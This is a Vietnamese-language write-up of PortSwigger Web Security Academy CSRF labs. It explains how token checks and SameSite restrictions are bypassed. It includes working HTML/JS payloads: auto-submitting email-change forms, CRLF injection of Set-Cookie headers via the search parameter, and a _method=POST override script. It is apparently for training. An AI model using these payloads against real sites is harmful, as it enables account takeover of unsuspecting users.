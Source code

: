 # CSRF lab

### 1. CSRF vulnerability with no defenses
https://portswigger.net/web-security/csrf/lab-no-defenses

Đăng nhập vào `wiener:peter` sau đó thay đổi email, do việc này không có csrf token cũng không có xác thực mật khẩu nên ta tạo form rồi gửi cho `carlos`

---

### 2. CSRF where token validation depends on request method
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

Context: ở đây khi dùng POST để đổi email thì cần có thêm `csrf` token, nhưng khi đổi sang GET thì không cần `csrf` token

![alt text](image.png)

![alt text](image-1.png)

Từ đây ta tạo csrf form để gửi đi. 

---

### 3. CSRF where token validation depends on token being present
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

Ở bài này việc xóa đi csrf token trong POST không ảnh hưởng đến kết quả.

![alt text](image-2.png)

Từ đây ta tạo payload.

---

### 4. CSRF where token is not tied to user session
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

Context: 

1. Csrf token ảnh hưởng đến xử lý, không thể xóa, hay sử dụng trùng nhau
2. Email trùng với tài khoản khác sẽ không hợp lệ, dẫn đến các lần thay đổi sau đó sẽ ko được do csrf token không thay đổi mỗi phiên đăng nhập nên chỉ sử dụng được 1 lần

Nhưng ở đây khi lấy csrf token của phiên đăng nhập của Carlos để gửi với change-email của weiner thì vẫn thành công do chưa sử dụng lần nào và nó tạo ra cho 1 phiên.\
![alt text](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

Từ đây ta đăng nhập 1 tài khoản và lấy csrf token cho phiên đó để gửi cho victim.

---

### 5. CSRF where token is tied to non-session cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

Context:

1. Khi update thì sẽ có cookie `csrfKey` và `csrf` token ở form, và 2 cái này tồn tại theo cặp, dù đổi người dùng thì nếu thay đổi cả 2 giá trị này theo cặp thì vẫn có thể request thành công. 

=> Ta cần đổi cookie `csrfKey` của victim và rồi từ đó có thể dùng `csrf` token của mình

Mặt khác, khi dùng chức năng search, thông tin sẽ được phản hồi ở `Set-cookie` ở response, vậy nên ta sẽ cố gắng chèn thêm `Set-cookie` ở response bằng cách dùng `%0d%0a` là `\r\n`:

![alt text](image-6.png)

Payload: 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aec003503cf58e580948f3d0053007b.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="4ZTQjukf9UX8toqgbTThbm8F16k9F2jO" />
        <input type="submit" value="Submit request" />
    </form>


    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

---

### 6. CSRF where token is duplicated in cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

Context: Bài này `csrf` token sẽ trùng với `csrf` cookie

Vẫn tương tự bài trước thì `Search` sẽ được thể hiện qua cookie

Ta sẽ chỉ cần tạo 1 fake csrf token và csrf cookie giống nhau ở phía victim:

Payload:

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="XBeN2PtpvYuFiueM15QTTYjQu37nWczz" />
        <input type="submit" value="Submit request" />
    </form>


    <img src="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=XBeN2PtpvYuFiueM15QTTYjQu37nWczz%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

---

### 7. SameSite Lax bypass via method override
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

Context: Cần bypass `Samesite: Lax`

![alt text](image-7.png)

Ở phần change-email thì không có sự xuất hiện của csrf token, nhưng khi attack theo kiểu truyền thống thì không thành công, có thể do cần thêm cookie để xác nhận. 

![alt text](image-8.png)

Mặt khác, cookie được tạo và không đặt `Samesite` nên mặc định nó là `Lax`. Với Lax cookie chỉ được include vào request khi đó là `GET` và đến 1 URL cấp cao hơn.

Nhưng khi chuyển qua `GET` nó đang không cho phép request:\
![alt text](image-9.png)

Thêm parameter `_method=POST` (ghi đè method) thì nó thành công:\
![alt text](image-10.png)

Payload: 
```js
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

---

### 8. SameSite Strict bypass via client-side redirect
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect






